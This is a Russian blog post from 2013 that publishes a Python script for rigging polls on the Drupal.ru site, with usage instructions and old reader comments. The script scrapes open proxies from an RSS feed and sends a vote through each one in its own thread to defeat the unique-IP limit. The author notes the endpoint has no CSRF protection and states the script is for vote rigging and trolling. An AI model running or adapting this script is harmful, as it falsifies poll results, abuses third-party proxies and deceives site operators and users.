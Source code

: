 ```yaml
---
layout: post
title:  "Накручивание голосований на Друпал.ру"
date:   "2013-03-04 05:46:40"
permalink: /2013/03/04/1/
categories: Питон Друпал Программирование
---
```


Простой скрипт на Питоне, накручивающий голосовалки на Друпал.ру:

~~~ python
import threading
import urllib
import re
import sys
import time
import random

try:
    _, nid, variant = sys.argv[:3]
except:
    print "Usage: python poll.py nid variant"
    exit(1)


PROXY_PATTERN = r"\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}:\d{2,5}"
POLL_URL = "http://www.drupal.ru/inner_poll/vote_js"

PROXY_URLS = (
    "http://feeds.feedburner.com/best-proxy/oKhv",
)

proxies = []
for url in PROXY_URLS:
    try:
        proxies.extend(re.findall(PROXY_PATTERN, urllib.urlopen(url).read()))
    except:
        continue

params = {
    "n": nid,    # node id
    "v": variant # variant id ("0,1,n" if multiple)
}
data = urllib.urlencode(params)

threads = []

print len(proxies), "proxies =)"
time.sleep(3)

def job(p):
    time.sleep(random.randint(0, 60))
    urllib.urlopen(POLL_URL, data=data, proxies={'http': 'http://' + p})

for p in proxies:
    t = threading.Thread(target=job, args=(p, ))
    try:
        t.start()
    except:
        pass
~~~

Запускать так:

~~~ python
python poll.py nid variant
~~~

, где nid — номер ноды, variant — номер варианта ответа (нумерация с
нуля) либо варианты через запятую.

Комментарии к коду.

1. На Друпал.ру голосование разрешено всем, даже анонимам.
2. Единственное ограничение на голосование — IP должен быть уникальным
   в пределах номера ноды.
3. Запрос осуществляется методом POST с передачей двух переменных:
   номера ноды и варианта. Про CSRF-токены не, не слышали.
4. Каждый запрос делаем через свой прокси. Список прокси берем из
   RSS-ленты сайта http://best-proxy.ru/ Лента, как вы заметили,
   пропущена через Фидбернер, т.к. создатели сайта огораживаются от
   граббинга.
5. Каждый запрос выделяем в свой тред.
6. КПД проксей где-то 10%, что тоже неплохо.

Область применения скрипта — накрутка и троллинг.


#### Комментарии из старого блога


**03/10/13 RxB:** Ну зачем... Теперь все будут знать


**03/10/13 Иван Гришаев:** Да и хрен с ним. Во-первых, на Д.ру одни
пхп-шники, во-вторых, best-proxy.ru больше не обновляется, прокси из
РСС-ленты не работают.


**03/25/13 Александр Мальков:** Но, все равно - спасибо. Интересный
  подход.
